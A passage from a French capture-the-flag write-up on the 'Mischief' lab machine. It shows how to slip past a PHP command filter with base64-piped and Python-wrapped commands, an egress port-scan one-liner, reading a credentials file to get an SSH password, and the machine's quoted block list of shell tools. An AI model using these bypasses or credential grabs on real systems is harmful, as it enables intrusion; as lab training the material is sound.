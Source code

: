 A titre d'exemple on ne peut pas utiliser *ls* ou son alias *dir* mais on peut exécuter ça :  

```bash
python -c "import glob; print glob.glob('*')" #
```

ou encore via base64 :  

```bash
echo bHM= | base64 -d | sh #
```

Le caractère dièse permet de commenter ce qui se trouve après nos commandes car il semble que l'output soit redirigé quelque part sinon.  

A ce stade on aimerait bien avoir un shell en tant que *www-data* mais on est dans un cas classique où on ne peut pas placer une clé SSH pour cet utilisateur.  

Les règles de pare feu semblent aussi nous empêcher d'obtenir un reverse shell. Pour confirmer cela on peut utiliser le one-liner Python suivant qui scanne nos ports et mettre un sniffer en écoute :  

```python
import socket;[socket.socket().connect_ex(('10.10.13.178', i)) for i in range(0,65536)]
```

Du coup on oublie pour le moment et on s'en remet au contenu du fichier *credentials* que l'on peut obtenir de la façon suivante pour éviter l'un des filtres présents :  

```bash
cat /home/loki/cred* #
```

On obtient alors 
> pass: lokiisthebestnorsegod

Il est aussi possible d'exfiltrer le contenu du fichier via ICMP (voir [ma solution du CTF Persistence](http://devloop.users.sourceforge.net/index.php?article106/solution-du-ctf-persistence)) mais c'est clairement overkill pour notre cas puisqu'on peut obtenir l'output.  

Si j'connaissais l'con qu'a fait sauter le pont...
--------------------------------------------------

Via ces identifiants on peut finalement obtenir un accès SSH en tant que *loki* et accéder au premier flag (apparemment certains ont eu la consigne de ne plus poster les flags donc je m'adapte) :  

```plain
loki@Mischief:~$ md5sum user.txt
1db6b29e3f4246e5b4c1ae0a082dca98  user.txt
```

Parce que c'est toujours bon de savoir après coup ce qu'il se passait voici le code PHP pour l'exécution de commande :  

```php
<?php
if(isset($_POST['command'])) {
    $cmd = $_POST['command'];
    if (strpos($cmd, "nc" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "bash" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "chown" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "setfacl" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "chmod" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "perl" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "find" ) !== false){
        echo "Command is not allowed.";
    } elseif (strpos($cmd, "locate" ) !== false){
        echo "Command is not allowed.";
```